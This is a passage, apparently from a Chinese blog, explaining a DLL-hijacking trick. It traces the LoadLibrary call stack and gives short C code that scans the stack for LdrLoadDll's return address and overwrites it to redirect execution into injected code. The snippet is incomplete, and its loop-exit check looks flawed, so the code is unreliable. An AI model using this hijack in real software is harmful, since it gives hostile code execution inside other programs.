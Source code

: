     
          1. KernelBase!LoadLibraryExW <- 要求动态模块加载
    
      2. ntdll!LdrLoadDll
    
      3. ntdll!LdrpLoadDll
    
      4. ntdll!LdrpLoadDllInternal
    
      5. ntdll!LdrpPrepareModuleForExecution
    
      6. ntdll!LdrpInitializeGraphRecurse <- 建立依赖关系图
    
      7. ntdll!LdrpInitializeNode
    
      8. ntdll!LdrpCallInitRoutine
    
      9. evil!DllMain <- 执行被传递给外部代码
    
    
    

所以此类dll劫持的,可以通过劫持 `ntdll`的 `LdrLoadDll`堆栈的返回地址，让程序LoadLibrary之后跳到我们的程序空间。

C语言代码

    
          1. char evilstring[10] = {0x90}; 
    
      2. DWORD ldrLoadDll = (DWORD)GetProcAddress(GetModuleHandle("ntdll"), "LdrLoadDll");
    
      3. DWORD* stack =evilstring+(int)evilstring%4;
    
      4. while (1)
    
      5. {
    
      6.     stack++;
    
      7.     if(stack > ldrLoadDll + 0x1000){
    
      8.         printf("over\n");
    
      9.         break;
    
      10.     }
    
      11.     if (*stack > ldrLoadDll && *stack < ldrLoadDll + 0x1000) {
    
      12.         *stack = (DWORD)Memory;
    
      13.         break;
    
      14.     }
    
      15. }
    
    
    

你可以使用内嵌汇编的方式获得堆栈地址，我使用C语言的一个特性，我申明了一个小的变量

    
          1. char evilstring[10] = {0x90}; 
    
    
    

C语言会自动将它放到堆栈中，所以这个变量的地址即是堆栈的地址了。接着从堆栈向上寻找地址，如果发现地址和 `LdrLoadDll`相差不多的话，就是我们寻找的
`LdrLoadDll`的返回地址，hook它即可获得代码的执行权。
